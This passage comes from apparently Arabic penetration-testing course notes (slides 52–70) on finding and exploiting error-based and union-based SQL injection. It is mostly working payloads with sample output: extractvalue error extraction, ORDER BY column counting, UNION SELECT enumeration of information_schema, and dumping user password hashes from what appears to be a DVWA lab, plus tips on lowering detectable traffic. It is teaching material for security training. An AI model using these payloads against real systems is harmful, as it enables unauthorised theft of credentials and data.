






# 🎓 الجزء الثالث: استغلال Error-Based و Union-Based SQLi
## Slides 52 → 70

---

## 📌 Slide 52: Finding SQL Injection Vulnerabilities Manually
### عنوان القسم: اكتشاف ثغرات SQLi يدوياً

دلوقتي بعد ما فهمنا الأنواع النظرية، هندخل في **التطبيق العملي**! 🔥

> الاكتشاف اليدوي هو **أساس أي Pentester محترف**. الأدوات الآلية زي SQLMap ممتازة، بس لو مش عارف تلاقي الثغرة يدوي الأول — فانت بتعتمد على الأداة وده مش كويس.

### القسم ده هيغطي:
1. إزاي نلاقي SQLi يدوي (بدون أدوات)
2. إزاي نستغل Error-Based SQLi
3. إزاي نستغل Union-Based SQLi
4. Demos عملية لكل نوع

---

## 📌 Slide 53: Demo - Finding SQL Injection Vulnerabilities Manually

### ديمو عملي: اكتشاف SQLi يدوياً

في الديمو ده، المحاضر بيستخدم الخطوات دي:

```
خطوات الاكتشاف اليدوي:
━━━━━━━━━━━━━━━━━━━━━━━
1. 🔍 استكشاف التطبيق (Reconnaissance)
   └── حدد كل الـ Input Fields + URL Parameters + Forms

2. 💉 اختبار بحروف خاصة
   └── جرب: '  "  ;  --  #  /*  */

3. 📊 مراقبة الاستجابة
   └── Error? → Error-Based SQLi محتمل
   └── الصفحة اتغيرت? → Boolean-Based محتمل
   └── مفيش تغيير? → جرب Time-Based

4. ✅ تأكيد الثغرة
   └── ' OR '1'='1' --  vs  ' OR '1'='2' --
   └── لو النتيجة مختلفة = SQLi مؤكدة!

5. 🎯 تحديد نوع الاستغلال
   └── Error-Based? Union-Based? Blind?
```

> **🔴 من واقع الـ Pentesting:** دايماً ابدأ يدوي قبل ما تستخدم أي أداة. لو SQLMap سقّط السيرفر عند العميل — ده مش Professional. الاختبار اليدوي بيخليك تسيطر على الوضع 100%.

---

## 📌 Slide 54: Exploiting Error-Based SQL Injection
### عنوان القسم: استغلال Error-Based SQL Injection

> هنبدأ أول نوع من الاستغلال: **Error-Based SQL Injection** — وده أبسط الأنواع وأسرعهم في استخراج البيانات.

---

## 📌 Slide 55: SQL Injection Types & Subtypes (Recap)

### تذكير سريع بالشجرة:



> **⭐ إحنا هنا!** بنركز دلوقتي على **Error-Based** — وده جزء من **In-Band SQL Injection**.

---

## 📌 Slide 56: In-Band SQL Injection (Review)

> **تذكير:** In-Band SQL Injection هو لما المهاجم بيستخدم **نفس قناة الاتصال** لإرسال الهجوم واستقبال النتائج.

### الخصائص:
- ✅ أشهر وأسهل نوع
- ✅ النتيجة بتظهر **مباشرةً** في الصفحة
- ✅ بيشمل: Error-Based + Union-Based
- ⚠️ خطير جداً: سرقة بيانات، تعديل، حذف، أو RCE

---

## 📌 Slide 57: In-Band SQLi - Attack Flow (Review)

### رسم توضيحي:



---

## 📌 Slide 58: Error-Based SQL Injection - Concept

> **Error-Based SQL Injection** هي تقنية بتعتمد على **التسبب المتعمد في أخطاء الداتابيز** واستخدام رسائل الخطأ اللي بترجع لاستخراج المعلومات.

### الفكرة الأساسية:

| الخطوة | الشرح |
|--------|-------|
| **السبب** | المهاجم بيحقن كود SQL **غلط عمداً** |
| **النتيجة** | الداتابيز بترجع **رسالة خطأ** مفصلة |
| **الاستغلال** | رسالة الخطأ فيها **معلومات** عن بنية الداتابيز |

### بالمصري كده:
تخيل إنك بتسأل حد سؤال غلط عمداً — وهو برد عليك بطريقة تكشف معلومات مكنتش المفروض تعرفها! 😂

```sql
-- مثال: طلب Version بطريقة تسبب Error
' AND extractvalue(1, concat(0x3a, version())) --

-- الـ Error اللي هيرجع:
-- XPATH syntax error: ':5.7.34'
-- ↑ ده رقم إصدار MySQL! استخرجناه من رسالة الخطأ!
```

---

## 📌 Slide 59: Error-Based SQL Injection Methodology

### المنهجية خطوة بخطوة:



**الخطوات بالتفصيل:**

**1. Identify Vulnerable Parameter:**
```
http://target.com/page.php?id=1
                               ↑ ده الـ Parameter اللي هنختبره
```

**2. Inject Malicious SQL:**
```sql
?id=1' AND extractvalue(1, concat(0x3a, database())) --
```

**3. Observe Error Messages:**
```
XPATH syntax error: ':target_database'
                      ↑ اسم الداتابيز ظهر في الـ Error!
```

---

## 📌 Slide 60: Error-Based SQLi - Data Extraction

### استخراج البيانات خطوة بخطوة:

**4. Extract Data (استخراج بيانات محددة):**

```sql
-- استخراج اسم الداتابيز:
' AND extractvalue(1, concat(0x3a, database())) --
-- Result: ':users_db'

-- استخراج أسماء الجداول:
' AND extractvalue(1, concat(0x3a, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1))) --
-- Result: ':users'

-- استخراج أسماء الأعمدة:
' AND extractvalue(1, concat(0x3a, (SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1))) --
-- Result: ':username'

-- استخراج البيانات نفسها:
' AND extractvalue(1, concat(0x3a, (SELECT username FROM users LIMIT 0,1))) --
-- Result: ':admin'
```

**5. Exploit:**
بعد ما عرفت اسم الـ Admin والباسورد — يبقى **اتسيطر على التطبيق!** 💀

---

## 📌 Slide 61: Error-Based SQLi - Attack Flow Diagram

### رسم توضيحي كامل:



---

## 📌 Slide 62: Demo - Exploiting Error-Based SQL Injection

### ديمو عملي: استغلال Error-Based SQLi

المحاضر بيستعرض:
1. اكتشاف Injection Point في URL Parameter
2. حقن `'` لاستفزاز Error
3. قراءة رسالة الخطأ لمعرفة نوع الداتابيز
4. استخدام `extractvalue()` أو `updatexml()` لسحب البيانات
5. استخراج: Database name → Tables → Columns → Data

### مسار الاستغلال النموذجي:
```sql
-- Step 1: تأكيد وجود SQLi
?id=1'
-- Error: You have an error in your SQL syntax...

-- Step 2: معرفة عدد الأعمدة (للاستخدام لاحقاً)
?id=1' ORDER BY 5 --
-- Error at 5, works at 4 → 4 columns

-- Step 3: استخراج اسم الداتابيز
?id=1' AND extractvalue(1, concat(0x3a, database())) --
-- Error: ':dvwa'

-- Step 4: استخراج الجداول
?id=1' AND extractvalue(1, concat(0x3a, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()))) --
-- Error: ':users,guestbook'

-- Step 5: سحب البيانات!
?id=1' AND extractvalue(1, concat(0x3a, (SELECT GROUP_CONCAT(user,0x3a,password) FROM users))) --
-- Error: ':admin:5f4dcc3b5aa765d61d8327deb882cf99'
```

> **🔴 من واقع الـ Pentesting:** لو الداتابيز MySQL، استخدم `extractvalue()` أو `updatexml()`. لو MSSQL، استخدم `convert()` أو `cast()`. لو Oracle، استخدم `utl_inaddr.get_host_name()`. كل داتابيز ليها Functions مختلفة تطلّع Errors مفيدة!

---

## 📌 Slide 63: Exploiting Union-Based SQL Injection
### عنوان القسم: استغلال Union-Based SQL Injection

> هنتكلم دلوقتي عن النوع التاني من In-Band SQLi: **Union-Based** — وده **أقوى** من Error-Based لأنه بيسحب بيانات كاملة مش بس سطر واحد!

---

## 📌 Slide 64: SQL Injection Types & Subtypes (Recap)

### تذكير — إحنا فين:



> **⭐ إحنا هنا!** خلصنا Error-Based ✅ ودلوقتي بندخل في **Union-Based**.

---

## 📌 Slide 65: Union-Based SQL Injection - Concept

> **Union-Based SQL Injection** بيستغل operator اسمه **UNION** في SQL. الـ UNION بيدمج نتائج استعلامين أو أكتر في نتيجة واحدة.

### الشروط:
- عدد الأعمدة لازم يكون **نفسه** في الاستعلامين
- أنواع البيانات لازم تكون **متوافقة**

### بالمصري كده:
تخيل إن عندك جدول فيه أسماء المنتجات. الاستعلام العادي بيرجع المنتجات. أنت بتضيف `UNION SELECT` عشان **تدمج** بيانات من جدول تاني (زي الـ Users) مع النتيجة!

```sql
-- الاستعلام الأصلي:
SELECT id, name FROM products WHERE id = '1'

-- بعد الحقن:
SELECT id, name FROM products WHERE id = '' 
UNION SELECT username, password FROM users --'
-- ↑ دلوقتي النتيجة فيها المنتجات + أسماء المستخدمين والباسوردات!
```

---

## 📌 Slide 66: Union-Based SQLi - Example

### مثال تفصيلي:

```sql
-- الكود الأصلي الضعيف:
SELECT id, name FROM users WHERE id = '<user_input>'

-- Payload بتاع المهاجم:
' UNION SELECT credit_card_number, 'hack' FROM credit_cards --

-- الاستعلام المعدل:
SELECT id, name FROM users WHERE id = '' 
UNION SELECT credit_card_number, 'hack' FROM credit_cards --'
```

### تحليل:

| الجزء | الشرح |
|-------|-------|
| `''` | بيفضى قيمة الـ `id` (مفيش نتائج من الاستعلام الأول) |
| `UNION SELECT` | بيدمج نتيجة استعلام تاني |
| `credit_card_number, 'hack'` | بيسحب أرقام البطاقات + نص ثابت |
| `FROM credit_cards` | من جدول البطاقات |
| `--` | بيعلّق باقي الاستعلام الأصلي |

> **النتيجة:** بدل ما الصفحة تعرض بيانات اليوزر — بتعرض **أرقام البطاقات**! 💀

---

## 📌 Slide 67: Union-Based SQLi - Modified Query

### الاستعلام النهائي:

```sql
SELECT id, name FROM users WHERE id = '' 
UNION SELECT credit_card_number, 'hack' FROM credit_cards --
```

### النتيجة في الصفحة:

| id | name |
|----|------|
| 4111111111111111 | hack |
| 5500000000000004 | hack |
| 340000000000009 | hack |

> الأرقام دي هي **أرقام البطاقات الائتمانية** اللي اتسرقت من جدول `credit_cards`! 

### ليه ده خطير جداً؟
لأن Union-Based بيسحب **بيانات كاملة** مش بس سطر واحد زي Error-Based. يقدر يسحب **كل الجداول** و **كل الأعمدة** و **كل البيانات**!

---

## 📌 Slide 68: Union-Based SQLi Methodology

### المنهجية خطوة بخطوة:



**الخطوات بالتفصيل:**

**Step 1-2: تحديد وتأكيد:**
```sql
?id=1'  -- لو طلع Error = Injectable
```

**Step 3: معرفة عدد الأعمدة:**
```sql
?id=1' ORDER BY 1 --  ✅
?id=1' ORDER BY 2 --  ✅
?id=1' ORDER BY 3 --  ✅
?id=1' ORDER BY 4 --  ❌ Error!
-- إذاً عدد الأعمدة = 3
```

**Step 4: معرفة الأعمدة الظاهرة:**
```sql
?id=1' UNION SELECT 1,2,3 --
-- الأرقام اللي بتظهر في الصفحة = الأعمدة اللي نقدر نسحب منها بيانات
```

**Step 5-7: الاستخراج:**
```sql
-- أسماء الداتابيز:
?id=1' UNION SELECT 1,GROUP_CONCAT(schema_name),3 FROM information_schema.schemata --

-- أسماء الجداول:
?id=1' UNION SELECT 1,GROUP_CONCAT(table_name),3 FROM information_schema.tables WHERE table_schema='target_db' --

-- أسماء الأعمدة:
?id=1' UNION SELECT 1,GROUP_CONCAT(column_name),3 FROM information_schema.columns WHERE table_name='users' --

-- البيانات:
?id=1' UNION SELECT 1,GROUP_CONCAT(username,0x3a,password),3 FROM users --
```

---

## 📌 Slide 69: Union-Based SQLi Methodology (Continued)

### تأكيد الثغرة والاستغلال:

**Confirm Vulnerability:**
حقن `UNION SELECT` ولاحظ لو النتيجة فيها بيانات إضافية أو أعمدة جديدة.

**Enumerate the Database:**
```sql
-- استخراج بنية الداتابيز كاملة:
-- 1. الداتابيزات المتاحة
UNION SELECT 1, schema_name, 3 FROM information_schema.schemata --

-- 2. الجداول في داتابيز معينة
UNION SELECT 1, table_name, 3 FROM information_schema.tables WHERE table_schema='users_db' --

-- 3. الأعمدة في جدول معين
UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_name='user_credentials' --

-- 4. البيانات نفسها
UNION SELECT 1, CONCAT(username, ':', password), 3 FROM user_credentials --
```

### ملاحظة مهمة عن `ORDER BY` و `LIMIT`:
```sql
-- استخدم ORDER BY عشان ترتب النتائج
UNION SELECT 1, username, 3 FROM users ORDER BY 2 --

-- استخدم LIMIT عشان تسحب صف صف
UNION SELECT 1, username, 3 FROM users LIMIT 0,1 --
UNION SELECT 1, username, 3 FROM users LIMIT 1,1 --
UNION SELECT 1, username, 3 FROM users LIMIT 2,1 --
```

> **🔴 من واقع الـ Pentesting:** دايماً استخدم `GROUP_CONCAT()` في MySQL عشان تسحب كل النتائج في Request واحد بدل ما تعمل Request لكل صف. ده بيوفر وقت وبيقلل الـ Traffic اللي ممكن يلفت الانتباه!

---

## 📌 Slide 70: Demo - Exploiting Union-Based SQL Injection

### ديمو عملي: استغلال Union-Based SQLi

### السيناريو الكامل:

```sql
-- 1. اكتشاف الثغرة:
http://target.com/product.php?id=1'
-- Result: SQL Error → Injectable!

-- 2. معرفة عدد الأعمدة:
?id=1' ORDER BY 1 -- ✅
?id=1' ORDER BY 2 -- ✅
?id=1' ORDER BY 3 -- ✅
?id=1' ORDER BY 4 -- ❌
-- Columns = 3

-- 3. معرفة الأعمدة الظاهرة:
?id=-1' UNION SELECT 1,2,3 --
-- الرقم 2 ظهر في الصفحة → العمود 2 هو اللي نقدر نسحب منه

-- 4. استخراج الـ Version:
?id=-1' UNION SELECT 1,version(),3 --
-- Result: 5.7.34

-- 5. استخراج الداتابيزات:
?id=-1' UNION SELECT 1,GROUP_CONCAT(schema_name),3 
FROM information_schema.schemata --
-- Result: information_schema,dvwa,performance_schema

-- 6. استخراج الجداول:
?id=-1' UNION SELECT 1,GROUP_CONCAT(table_name),3 
FROM information_schema.tables WHERE table_schema='dvwa' --
-- Result: users,guestbook

-- 7. استخراج الأعمدة:
?id=-1' UNION SELECT 1,GROUP_CONCAT(column_name),3 
FROM information_schema.columns WHERE table_name='users' --
-- Result: user_id,first_name,last_name,user,password

-- 8. 💀 سحب البيانات:
?id=-1' UNION SELECT 1,GROUP_CONCAT(user,0x3a,password SEPARATOR '<br>'),3 
FROM users --
-- Result:
-- admin:5f4dcc3b5aa765d61d8327deb882cf99
-- gordonb:e99a18c428cb38d5f260853678922e03
```

> **💡 ملاحظة:** استخدمنا `id=-1` (رقم مش موجود) عشان الاستعلام الأول ميرجعش نتائج — وبكده **بس نتائج UNION** هي اللي تظهر!

---

## 🎯 ملخص الجزء الثالث

| الموضوع | الشرح | الأهمية |
|---------|-------|---------| 
| **Error-Based SQLi** | استخراج البيانات من رسائل الخطأ | سريع بس محدود (سطر واحد في المرة) |
| **Union-Based SQLi** | دمج استعلام المهاجم مع الأصلي | أقوى — بيسحب بيانات كاملة |
| **ORDER BY** | تحديد عدد الأعمدة | خطوة لازمة قبل UNION |
| **UNION SELECT NULL** | اكتشاف عدد الأعمدة | طريقة بديلة لـ ORDER BY |
| **information_schema** | فهرس الداتابيز — فيه كل المعلومات | databases → tables → columns → data |
| **GROUP_CONCAT()** | سحب كل النتائج في Request واحد | بيوفر وقت وبيقلل الـ Traffic |

### 🔧 أهم الـ Key Takeaways:

```
✅ Error-Based: سريع بس محدود — كويس للاستكشاف الأولي
✅ Union-Based: أقوى — بيسحب جداول كاملة
✅ لازم تعرف عدد الأعمدة أول حاجة (ORDER BY)
✅ information_schema هو صديقك الأول — فيه خريطة الداتابيز كلها
✅ GROUP_CONCAT() بيوفر وقت كبير
✅ استخدم id=-1 عشان تخفي نتائج الاستعلام الأصلي
```

> 📝 **الجزء الجاي:** هندخل في **Blind SQL Injection** (Boolean-Based و Time-Based) + **منهجية الاختبار الشاملة** + الـ **Checklist** بتاعت SQLi! 🛠️
